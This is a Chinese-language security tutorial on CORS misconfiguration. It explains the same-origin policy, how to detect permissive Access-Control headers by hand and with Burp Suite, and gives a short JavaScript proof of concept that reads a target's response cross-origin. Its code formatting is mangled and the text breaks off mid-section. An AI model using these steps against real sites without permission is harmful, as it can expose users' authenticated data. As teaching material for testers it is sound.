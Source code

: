 # 原创
：  漏洞分析 | CORS讲解与实战利用

# 漏洞分析 | CORS讲解与实战利用

#### 产生原因

同源策略：如果两个URL的协议、域名、端口号都相同，就称这两个URL同源。

同源策略（SOP）限制了应用程序之间的信息共享，并且仅允许在托管应用程序的域内共享。这有效防止了系统机密信息的泄露。但与此同时，也带来了另外的问题。随着Web应用程序和微服务使用的日益增长，出于实用目的往往需要将信息从一个子域传递到另一个子域，或者在不同域之间进行传递（例如将访问令牌和会话标识符，传递给另一个应用程序）。

为了允许跨域通信，开发人员必须使用不同的技术来绕过SOP并传递敏感信息，以至于现今也成为了一个棘手的安全问题。因此，为了在不影响应用程序安全状态的情况下实现信息共享，在HTML5中引入了跨源资源共享（CORS）。但问题也随之而来，许多人为了方便干脆直接使用默认的配置，或是由于缺乏对此的了解而导致了错误的配置。

#### CORS跨域资源共享

CORS，跨域资源共享（Cross-origin resource sharing），这种机制通过添加HTTP字段的方式规定服务器资源允许被哪些域访问（Access-Control-Allow-Origin）、请求中是否允许发送cookie（Access-Control-Allow-Credentials）、哪些请求类型是被允许的（Access-Control-Request-Method）等等。

#### 手工验证方式

在正常的api请求处,headers加入”origin”:”http://xx.xx.xx.xx“, 如果接口正常返回了数据且headers里包含：

```
access-control-allow-credentials : true</code><code>access-control-allow-origin : http://xx.xx.xx.xx
```

就说明这个接口确实存在CORS漏洞。

#### 实战技巧

使用 **burpsuite **选择 **Proxy** 模块中的 **Options 选项**，找到**Match and Replace**这一栏，勾选**Request header** 将空替换为**Origin:foo.example.org**的 **Enable**框。

<br/> HTTP history列表中出现符合条件的请求包，发送到Repeater中，点击GO，若存在如下图所示，即该处可能有CORS漏洞。

响应包组合应是这种(存在CORS)：
1.  `Access-Control-Allow-Origin: foo.example.org` 1.  `Access-Control-Allow-Credentials: true` 
注意！如下组合是没有漏洞的。因为浏览器已经会阻止如下配置。(不存在CORS)
1.  `Access-Control-Allow-Origin: *` 1.  `Access-Control-Allow-Credentials: true` 
利用效果：

#### 实战：

抓包发现请求头中存在Origin，将其修改为*

发现Access-Control-Allow-Origin:返回的*<br/>  

<br/> 该处的数据包，所有域可以访问本域的资源。说明该接口可能存在CORS漏洞。

以GET的形式POC
1.  `&lt;!DOCTYPE&gt;` 1.  `&lt;html&gt;` 1.  `&lt;script type="text/javascript"&gt;` 1.  `function loadXMLDoc()` 1.  `{` 1.  `var xhr = new XMLHttpRequest();` 1.   1.  `xhr.onreadystatechange=function()` 1.  `{` 1.  `if(xhr.readyState == 4 &amp;&amp; xhr.status == 200) //if receive xhr response` 1.  `{` 1.  `var datas=xhr.responseText;` 1.  `alert(datas);` 1.  `}` 1.  `}` 1.  `//request vuln page` 1.  `xhr.open("GET","http://www.target.com","true") //网页地址` 1.  `xhr.send();` 1.  `}` 1.  `loadXMLDoc();` 1.  `&lt;/script&gt;` 1.  `&lt;/html&gt;` 
##### 不存在CORS漏洞的情况下
